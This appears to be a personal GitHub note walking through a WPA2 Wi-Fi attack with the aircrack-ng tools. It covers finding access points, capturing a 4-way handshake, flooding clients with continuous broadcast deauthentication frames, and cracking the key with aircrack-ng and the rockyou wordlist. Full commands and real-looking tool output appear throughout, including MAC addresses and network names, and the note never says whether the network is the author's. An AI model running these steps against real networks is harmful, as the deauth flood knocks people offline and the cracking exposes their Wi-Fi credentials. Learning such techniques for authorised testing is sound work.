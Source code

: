 set up kernel modules for [rtl8812au](https://github.com/Wodajo/Linux-projects/blob/main/installation/rtl%20kernel%20module%20installation.md)
[set up NIC](https://github.com/Wodajo/Linux-projects/blob/main/installation/rtl%20NIC%20setting%20up.md)

##### airodump - aireplay
`sudo airmon-ng check kill` - kill conflicting processes

`sudo airodump-ng wlp0s26u1u2` - discover access point.
```
 CH  7 ][ Elapsed: 0 s ][ 2022-07-02 00:38 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C0:06:C3:44:C2:0A  -72       11        0    0   7  540   WPA2 CCMP   PSK  HH71VM_B30E_2.4G_E
 F0:51:36:27:7C:47  -44       10        0    0   1  270   WPA2 CCMP   PSK  HH71VM_7C47_2.4G  
 0C:71:8C:44:B3:0E  -65       12        0    0   7  130   WPA2 CCMP   PSK  HH71VM_B30E_2.4G  
 2E:0E:3D:7F:34:5D  -48       12        1    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felici

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 ```
BSSID (MAC address) - 2E:0E:3D:7F:34:5D
CH (channel) - 7

`sudo airodump-ng -w hack1 -c 11 --bssid 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
00:41:32  Created capture file "hack1-02.cap".





 CH 11 ][ Elapsed: 2 mins ][ 2022-07-02 00:43 ][ WPA handshake: 2E:0E:3D:7F:34:5D 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 2E:0E:3D:7F:34:5D  -45 100     1189      625    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felicitas                                  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 2E:0E:3D:7F:34:5D  B8:08:CF:3C:7B:1E  -44    1e-24e     0      844  EAPOL
```

to deauthenticate:
`sudo aireplay-ng --deauth 0 -a 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
0:42:44  Waiting for beacon frame (BSSID: 2E:0E:3D:7F:34:5D) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
00:42:44  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:51  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
```

previous command captured 4way handshake and stored hash (sent by dev trying to reauth into) -> crack with hashcat/john

OR

with `aircrack` (wrapper for _____)
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

You can open `hack1-01.cap` with wireshark. use filter `eapol` to show handshake
##### wifite
wrapper for `airodump`, `aireplay` and `aircrack`. Automates stuff, and is colorfull
